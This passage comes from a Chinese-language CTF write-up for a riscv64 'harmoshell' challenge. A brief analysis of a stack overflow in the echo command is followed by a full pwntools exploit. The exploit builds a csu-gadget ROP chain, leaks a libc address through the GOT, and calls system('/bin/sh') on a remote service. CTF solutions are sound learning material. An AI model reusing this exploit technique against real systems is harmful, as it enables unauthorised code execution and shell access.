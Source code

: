 echo函数，最后读取用户输入时，存在栈溢出。

#### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90"></a>利用分析

由于是 riscv64架构的，调试不了。但是感觉总体和 mips的做法差不多。

可以找到 csu地址，利用 csu来布置 参数和执行函数。

泄露地址，则利用c++ 自己的标准输出函数来泄露地址。

#### <a class="reference-link" name="EXP"></a>EXP

```
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

file_path = ["./qemu-riscv64", '-L', './libs', './harmoshell']
#p = process(file_path)
p = remote('121.36.192.114',9999)
e = ELF("./harmoshell")
libc = ELF('./libs/lib/libc-2.27.so')
csu_f_addr = 0x0001182c
csu_e_addr = 0x0001181a
def csu(addr, a0, a1, a2):
    p = p64(0)+p64(a2)+p64(a1)+p64(a0)+p64(1)+p64(0)
    p += p64(addr)+p64(csu_e_addr)
    return p

def csu_j(addr):
    p = p64(0)+p64(0)+p64(0)+p64(0)+p64(1)+p64(0)
    p += p64(0)+p64(addr)
    return p

def Pwn():
    for i in range(0x30):
        p.sendlineafter('$', 'touch '+str(i))

    cout_addr = 0x13118
    read_got = 0x13060
    stdaddr = 0x13080

    payload = b'a'*(0x138)+p64(csu_f_addr)
    payload += csu(stdaddr, cout_addr, read_got, 0x8)
    payload += csu(read_got, 0, read_got, 0x10)
    payload += csu(read_got, read_got+8, 0, 0x10)

    p.sendlineafter('$', 'touch 1')
    p.sendlineafter('$', 'echo &gt; 48')
    p.send(payload)

    data = p.recv(6)
    read_addr = u64(p.recv(6).ljust(8, b'\x00'))
    libc_base = read_addr - libc.sym['read']
    print('libc_base:',hex(libc_base))
    system_addr = libc_base + libc.sym['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
    print('bin_sh_addr:',hex(bin_sh_addr))
    print('system_addr:',hex(system_addr))
    p.sendline(p64(system_addr)+'/bin/sh\x00')

    p.interactive()

Pwn()
```